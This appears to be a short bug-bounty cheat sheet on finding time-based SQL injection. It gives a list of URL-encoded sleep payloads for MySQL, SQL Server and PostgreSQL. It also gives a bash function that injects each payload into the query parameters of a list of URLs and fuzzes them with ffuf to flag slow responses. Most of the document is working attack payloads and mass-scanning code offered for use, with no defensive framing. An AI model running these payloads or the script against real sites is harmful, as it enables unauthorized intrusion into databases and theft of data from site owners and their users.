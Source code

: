 ### Time Based Sql Injection with ffuf

* Payloads: save this in payloads file

```
XOR(if(now()=sysdate(),sleep(5),0))OR%27
if(now()=sysdate(),sleep(5),0)
(select(0)from(select(sleep(5)))v)/*%27+(select(3)from(select(sleep(5)))v)+%27%22+(select(0)from(select(sleep(5)))v)+%22*/
%27XOR(if(now()=sysdate(),sleep(5*1),0))XOR%27Z
1%20AND%20(SELECT%20*%20FROM%20(SELECT(SLEEP(5)))YYYY)%20AND%20%27%%27=%27
1%27XOR(if(now()=sysdate(),sleep(5),0))OR%27
1%20AND%20(SELECT%201337%20FROM%20(SELECT(SLEEP(5)))YYYY)-1337
1%20or%20sleep(5)%23
%27%20WAITFOR%20DELAY%20%270:0:5%27--
%%27;SELECT%20PG_SLEEP(5)--
pg_sleep(5)
%27|%20|pg_sleep(5)--
```


* Add in .bashrc function

```
# Time Based Sql Injection
sqliTime(){
for i in $(cat ~/.jaeles/resources/payloads) ; do
  cat $1 | qsreplace "$i" > sqli
  ffuf -u FUZZ -w sqli -s -ft "<5000" | tee -a vulnSqli.txt
  rm sqli
done
}
```

### Usage:
```
sqliTime urls.txt
```
